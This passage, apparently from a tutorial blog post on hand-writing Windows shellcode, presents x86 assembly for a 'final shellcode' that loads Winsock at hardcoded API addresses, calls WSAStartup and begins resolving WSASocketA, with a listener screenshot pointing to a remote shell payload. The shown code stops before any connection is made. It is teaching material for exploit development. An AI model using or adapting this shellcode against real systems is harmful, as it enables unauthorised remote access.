 ![1-listener]({{ "/assets/media/manualshellcode/shellcode_listener.png" | absolute_url }})

However, there is still a small problem:

![2-crash]({{ "/assets/media/manualshellcode/shellcode_crash.png" | absolute_url }})

Since we did not correctly finish the process, it crashes. By now you should be fully confident about how to fix this issue, so I won't spoil it ;)

This is our final shellcode therefore:

~~~
global _start

section .text

_start:

.loadWinSock:
	xor eax, eax

	mov ax, 0x3233			;23
	push eax				;includes \0 at the end without insert NULLs
	push 0x5f327377 		;_2sw
	push esp			;pointer to the string

	mov ebx, 0x7c801d7b		;0x7b1d807c  	;addr of LoadLibraryA (0x7c801d7b)
	call ebx

	mov ebp, eax			;save winsock handle

.getWSAStartup:
	xor eax, eax

	mov ax, 0x7075      ; 'up'
	push eax
	push 0x74726174     ; 'trat'
	push 0x53415357     ; 'SASW'
	push esp	    ;pointer to the string

	push ebp	    ;winsock handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

.callWSAStartUp:
	xor ebx, ebx
	mov bx, 0x0190
	sub esp, ebx
	push esp
	xor ecx, ecx
	mov cx, 0x0202
	push ecx

	call eax		; WSAStartUp(MAKEWORD(2, 2), wsadata_pointer)


.getWSASocketA:
	xor eax, eax

	mov ax, 0x4174      ; 'At'
	push eax
	push 0x656b636f     ; 'ekco'
	push 0x53415357     ; 'SASW'
	push esp	    ;pointer to the string
~~~